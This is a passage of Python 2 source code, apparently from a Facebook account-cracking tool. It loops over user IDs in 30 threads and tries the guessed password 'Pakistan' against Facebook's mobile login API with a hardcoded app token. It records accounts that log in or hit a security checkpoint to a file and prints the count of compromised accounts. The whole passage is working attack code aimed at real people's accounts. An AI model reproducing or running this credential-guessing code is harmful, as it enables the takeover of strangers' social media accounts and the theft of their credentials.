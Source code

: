 															cek.close()

															cekpoint.append(user+pass6)

														else:

															pass7 = 'Pakistan'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;36;40m[After1Day] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']

																	cek = open("out/CP.txt", "a")

																	cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

		except:																		

			pass

		

	p = ThreadPool(30)

	p.map(main, id) 

	

	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;97m....'

	print "\033[1;32;40m[+] Total OK/\033[1;97mCP \033[1;97m: \033[1;97m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))

	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'

	print """

\033[1;31;40m ●════════════════════════◄►════════════════════════●

           """

	raw_input("\n\033[1;97m[\033[1;97mExit\033[1;97m]")

	super()
